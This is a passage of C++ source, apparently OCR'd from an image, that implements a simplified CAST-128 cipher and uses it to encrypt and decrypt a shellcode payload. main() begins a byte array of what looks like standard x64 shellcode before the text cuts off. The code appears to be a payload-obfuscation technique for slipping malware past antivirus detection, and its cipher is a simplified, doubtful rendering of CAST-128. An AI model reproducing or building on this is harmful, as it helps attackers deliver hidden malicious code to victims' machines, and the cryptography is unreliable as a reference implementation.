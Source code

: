 ```cpp
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

// CAST-128 decryption
void cast_decrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = ROUNDS - 1; i >= 0; i--) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

void cast_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_decrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

int main() {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
```